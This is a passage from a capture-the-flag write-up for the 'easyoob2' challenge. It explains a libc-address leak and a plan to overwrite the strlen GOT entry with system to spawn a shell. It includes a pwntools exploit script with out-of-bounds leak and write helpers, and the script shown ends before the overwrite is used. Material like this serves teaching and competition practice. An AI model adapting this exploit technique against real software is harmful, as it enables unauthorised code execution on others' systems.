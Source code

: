 After downloading the libc, our base address would be:

leak - address in libc = libc base

And the address of system would be:

libc base + system address in libc = system address

---

Now we just need to call system somewhere. How about overwriting `strlen` GOT? It's especially convenient as `name` is passed directly into it, so we can easily execute `sh`.

```py
from pwn import *
import sys


# --- setup ---
elf = context.binary = ELF('./easyoob2')
rop = ROP(elf)
# toggle local/remote
if sys.argv[1] == 'l':
    p = process(argv=['./ld-50390b2ae8aaa73c47745040f54e602f.so.2', './easyoob2'], env={'LD_PRELOAD':'./libc6_2.31-0ubuntu9.7_amd64.so'})
    gdb.attach(p)
    libc = ELF('./libc6_2.31-0ubuntu9.7_amd64.so')
else:
    p = remote('challs.nusgreyhats.org', 10526)
    libc = ELF('./libc6_2.31-0ubuntu9.7_amd64.so')


# --- exploit ---
def leak(p, index):
    p.clean()
    p.sendline(f'1 {index}')
    p.recvuntil(f'{index}. ')
    a = p.recvline().strip()
    upper = hex(int(a[0]))
    a = int(bytes.decode(a[6:], 'utf-8'))
    if a > 0:
        lower = hex(a)
        addr = f'0x7f{upper[2:]}{lower[2:]}'
        print(f"positive {addr = }")
    else:
        lower = hex(0x800000000000 + a)
        addr = f'0x7f{upper[2:]}{lower[-8:]}'
        print(f"negative {addr = }")
    return int(addr, 16)


def overwrite(p, index, addr):
    p.clean()
    # 0x00XX00000000
    upper = chr(int(hex(addr)[4:6], 16))
    # 0x0000XXXXXXXX
    lower = int(hex(addr)[6:], 16)
    payload = f'{upper}\x7f {lower}'
    p.sendline(f'2 {index} {payload}')


p.sendline(b'3 1')
puts_leak = leak(p, -16)
printf_leak = leak(p, -13)
# determined libc version ./libc6_2.31-0ubuntu9.7_amd64.so

```